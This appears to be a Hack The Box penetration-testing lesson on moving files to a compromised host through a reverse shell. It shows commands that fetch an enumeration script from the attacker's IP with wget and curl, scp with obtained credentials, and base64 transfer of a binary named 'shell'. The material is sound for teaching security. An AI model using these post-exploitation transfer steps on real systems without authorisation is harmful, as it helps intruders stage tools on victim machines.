 

During any penetration testing exercise, it is likely that we will need to

transfer files to the remote server, such as enumeration scripts or exploits, or

transfer data back to our attack host. While tools like Metasploit with a

Meterpreter shell allow us to use the Upload command to upload a file, we need

to learn methods to transfer files with a standard reverse shell.


# Using wget

There are many methods to accomplish this. One method is running a Python HTTP

server on our machine and then using wget or cURL to download the file on the

remote host. First, we go into the directory that contains the file we need to

transfer and run a Python HTTP server in it:

```c
anhlong@htb[/htb]$ cd /tmp
anhlong@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Now that we have set up a listening server on our machine, we can download the

file on the remote host that we have code execution on:

```c
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

Note that we used our IP 10.10.14.1 and the port our Python server runs on

8000. If the remote server does not have wget, we can use cURL to download the

file:


```c
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```
Note that we used the -o flag to specify the output file name.

# Using SCP

Another method to transfer files would be using scp, granted we have obtained

ssh user credentials on the remote host. We can do so as follows:


```c
anhlong@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

Note that we specified the local file name after scp, and the remote directory

will be saved to after the :.

# Using Base64

In some cases, we may not be able to transfer the file. For example, the remote

host may have firewall protections that prevent us from downloading a file from

our machine. In this type of situation, we can use a simple trick to base64

encode the file into base64 format, and then we can paste the base64 string on

the remote server and decode it. For example, if we wanted to transfer a binary

file called shell, we can base64 encode it as follows:

```c
anhlong@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```
Now, we can copy this base64 string, go to the remote host, and use base64 -d

to decode it, and pipe the output into a file:

```c
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```
Validating File Transfers

To validate the format of a file, we can run the file command on it:

```c
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```
As we can see, when we run the file command on the shell file, it says that it

is an ELF binary, meaning that we successfully transferred it. To ensure that

we did not mess up the file during the encoding/decoding process, we can check

its md5 hash. On our machine, we can run md5sum on it:

```c
anhlong@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```
Now, we can go to the remote server and run the same command on the file we transferred:

```c
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```
As we can see, both files have the same md5 hash, meaning the file was

transferred correctly. There are various other methods for transferring files.

You can check out the File Transfers module for a more detailed study on transferring files.
